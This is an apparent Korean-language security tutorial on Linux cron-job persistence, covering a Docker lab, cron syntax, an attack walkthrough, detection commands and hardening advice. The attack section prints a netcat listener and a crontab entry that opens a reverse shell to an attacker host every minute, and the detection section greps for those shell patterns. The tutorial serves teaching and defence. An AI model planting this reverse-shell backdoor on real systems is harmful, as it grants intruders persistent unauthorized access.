

## 1. 개요

**Cron Job Persistence**는 리눅스의 작업 스케줄러인 `cron`을 악용하여 악성 코드가 시스템에서 주기적으로 실행되도록 만드는 기법이다.
공격자가 초기 침투 후 재부팅이나 세션 종료가 발생하더라도 시스템 접근 권한을 잃지 않기 위해 사용(Persistence)하며, 리눅스 환경에서 가장 흔하게 발견되는 백도어 형태 중 하나이다.

---

## 2. 공격 흐름



---

## 3. 실습 환경

```bash
# Ubuntu Docker로 cron 테스트
docker run -it --rm ubuntu:20.04 bash
apt update && apt install -y cron netcat
service cron start
```

---

## 4. Cron 기본 동작

`cron`은 특정 시간에 지정된 작업을 자동으로 실행하는 리눅스의 데몬이다.

**주요 경로:**
*   `/etc/crontab`: 시스템 전체 cron 작업
*   `/var/spool/cron/crontabs/`: 사용자별 crontab 파일

**Cron 형식:**
```
# ┌───────────── 분 (0 - 59)
# │ ┌───────────── 시 (0 - 23)
# │ │ ┌───────────── 일 (1 - 31)
# │ │ │ ┌───────────── 월 (1 - 12)
# │ │ │ │ ┌───────────── 요일 (0 - 6)
# │ │ │ │ │
# * * * * * <사용자> <명령어>
```

---

## 5. 공격 실습

### 1. 공격자 리스너 실행
```bash
nc -lvnp 4444
```

### 2. 대상 서버에 cron 작업 등록
```bash
(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1'") | crontab -
```


### 3. 연결 수신 확인
1분 이내에 공격자의 리스너로 root 권한 쉘이 연결된다.


> 대상 서버가 재부팅되어도 cron 데몬이 매 분마다 공격자에게 쉘을 제공한다.

---

## 6. 탐지 방법

| 탐지 포인트 | 명령어/위치 |
|------------|------------|
| crontab 목록 | `crontab -l -u root` |
| 시스템 cron | `cat /etc/crontab` |
| cron 디렉터리 | `/etc/cron.d/`, `/etc/cron.daily/` |
| cron 로그 | `/var/log/cron` 또는 `/var/log/syslog` |

```bash
# 의심스러운 cron 작업 검색
grep -r "bash -i" /var/spool/cron/ /etc/cron* 2>/dev/null
grep -r "/dev/tcp" /var/spool/cron/ /etc/cron* 2>/dev/null
```

---

## 7. 보안 대책

*   **cron.allow/cron.deny**: `/etc/cron.allow`에 허용된 사용자만 등록
*   **파일 무결성 모니터링**: AIDE, Tripwire로 crontab 변경 감지
*   **권한 최소화**: root가 아닌 최소 권한 사용자로 작업 실행
*   **정기 감사**: 주기적으로 cron 작업 검토

*   **정기 감사**: 주기적으로 cron 작업 검토

<hr class="short-rule">